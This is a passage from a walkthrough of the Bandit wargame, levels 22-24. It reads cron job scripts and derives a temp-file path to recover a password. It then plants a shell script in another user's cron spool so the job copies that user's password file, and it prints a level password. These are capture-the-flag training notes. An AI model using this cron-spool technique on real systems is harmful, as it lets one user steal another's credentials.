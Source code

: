 *  **ls /etc/cron.d/** to check the content of the file.
* **cat /etc/cron.d/cronjob_bandit23** will access that particular file. #!/bin/bash  
myname=  (whoami )
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"
cat /etc/bandit_pass/$myname > /tmp/$mytarget
*  Since variable myname is is null we give command **myname=bandit23** this will assign bandit23 to varibale myname.
* Now excuting the command **echo I am user $myname | md5sum | cut -d ' ' -f 1** we will get a text "8ca319486bfbbc3663ea0fbe81326349".
* Accessing the path **cat /tmp/8ca319486bfbbc3663ea0fbe81326349** will get us the password.
>>**PASSWORD OBTAINED =** jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
___
## **LEVEL 23 --> 24**
>_LEVEL GOAL_  
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.
NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!
NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

*  **cd /etc/cron.d/** to get into the directory.
*  **ls** to check the content of the directory.
* **cat cronjob_bandit24** will access that particular file.  
`#!/bin/bash`  
`myname=$(whoami)`  
`cd /var/spool/$myname`  
`echo "Executing and deleting all scripts in /var/spool/$myname:" `  
`for i in * .*;  `  
`do`  
`if [ "$i" != "." -a "$i" != ".." ];`  
`then`  
`echo "Handling $i"`  
`owner="$(stat --format "%U" ./$i)"`  
`if [ "${owner}" = "bandit23" ]; then`  
`timeout -s 9 60 ./$i`  
`fi`  
`rm -f ./$i`  
`fi`
`done`

*  Using this command we create directory in tmp **mkdir /tmp/kirkiosk**.
* Now we access the directory **cd /tmp/kirkiosk** and we create an excutable file in it using the command **vim passkirk.sh**
* (#!/bin/bash  
cat /etc/bandit_pass/bandit24 > /tmp/kirkiosk/passwd.txt) will be written inside the executable file.
* Using the **chmod 777** we will change the permissions for the directory and the executable.
* Now we need copy the files to the bandit24, for that we use command **cp passkirk.sh /var/spool/bandit24/passkirk.sh**
* After one minute we get the passwd.txt file dumped into the current directory and using **cat passwd.txt** we get the password for the next level.
